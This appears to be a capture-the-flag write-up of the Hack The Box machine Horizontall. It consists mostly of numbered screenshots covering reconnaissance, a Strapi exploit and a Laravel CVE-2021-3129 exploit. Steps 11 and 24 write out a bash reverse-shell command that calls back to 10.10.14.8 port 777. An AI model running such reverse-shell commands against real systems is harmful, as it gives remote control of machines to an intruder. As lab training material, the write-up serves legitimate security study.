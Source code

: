 1. Run Nmap to scan any open ports and services from the web.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e168f3ae-fdca-40c6-a64c-4a4cf64ed6c0)

2. Open the ip address in the browser and it directs to horizontall.htb. I add it to /etc/hosts/ so I can open it.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/fa4cf0d4-22af-4da5-8d5b-e704b4493a39)

Website:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/777e5607-7645-40ec-af91-af3bcfbdf6d0)

3. The feature isn't showing any interesting things. Next things is check the source code and I found a unique js file.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e0940e2b-5f55-446b-9e1f-fd33608cff5e)

Content: <br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4200360b-ca33-4ddd-a525-af725b5feb74)

4. We can beautify with this [tool](https://beautifier.io/) and found a new api endpoint.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/b6547f97-6b75-4ed9-b248-5c5649ded97c)

5.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e140aac3-a94e-4c08-aedf-07b1878bbc6c)

Website: <br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/aad03eb2-afb9-4da1-b1c1-38927f3db72c)

6.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/7705d94a-dcdc-435d-b000-f9e71f2edd48)

7.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/5a0c5c8b-05f8-418d-aa02-a5d0741415d0)

8.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ef79f371-d2cb-460d-a1be-e0135cd36629)

9. [link](https://www.exploit-db.com/exploits/50239)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/51d2fddb-24f3-4f1d-9e60-4ecb33f0292c)

10.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ffaba9bc-9330-4947-be15-c2d62cfc5b63)

11. [tool](https://www.revshells.com/)

Payload:<br>
bash -c 'bash -i >& /dev/tcp/10.10.14.8/777 0>&1'

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1abb246c-695f-4324-b53a-1fd335f7bc29)

Host:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e6895636-9c7c-4ab3-97f0-fb5a8f163d04)

12.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ca080e46-3b76-45a0-96cd-91efe3cfd8af)

13.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d5dfe2a1-9c92-4927-bdad-1af36492b26a)

14.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/26a94265-8664-4cd8-884d-0ff53dcf36bf)

15.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bfcfc9e0-cbb4-4374-b3d5-c56dc6bf222b)

16.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/acbe2dc6-d6b2-47b1-88f7-3d1e8ed00b9e)

17.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d1579a62-ac52-42bf-b413-1cb73d7e38d8)

18.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/a4c6572e-1d54-4033-a86b-d97ca820ff90)

19.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bc26e6f9-bade-4006-918c-6010d8cb20d3)

Website:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/73406f49-fdfa-46c5-8681-140ea29aa6eb)

20.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d82a0488-eda1-4879-aec6-06346361cd78)

21.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/701ea246-aff2-4af8-9734-b51b0a6458c1)

22. [link](https://www.exploit-db.com/exploits/49424)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bfc8880f-6458-47c3-a890-d93e0c7157ce)

23. [payload](https://github.com/nth347/CVE-2021-3129_exploit/blob/master/exploit.py)

Run:<br>
`./exploit.py http://localhost:8000 Monolog/RCE1 id`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4b9b581b-3984-499a-994c-5469a70d9f8c)

24.

Run:<br>
`./exploit.py http://localhost:8000 Monolog/RCE1 'bash -c "bash -i >& /dev/tcp/10.10.14.8/777 0>&1"'`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1e29bf63-4555-494b-8b94-24a7b2563819)

Host:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/386a20da-85df-4c58-910c-52a520343750)

25.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e4f06518-68ce-405f-ba5f-94b54c7c8b57)





